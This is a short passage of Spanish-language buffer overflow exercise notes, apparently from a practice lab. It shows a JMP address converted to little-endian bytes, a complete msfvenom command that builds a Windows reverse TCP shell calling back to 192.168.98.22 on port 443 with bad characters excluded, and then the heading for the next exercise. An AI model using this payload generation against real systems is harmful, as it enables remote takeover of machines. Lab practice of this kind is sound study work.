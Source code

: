```php
625011AF
```

```php
\xAF\x11\x50\x62

```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x1d\x2e" -f c
```

![20240228215404.png](20240228215404.png)

## Shell

![20240228215838.png](20240228215838.png)
# OverFlow9

## Offset
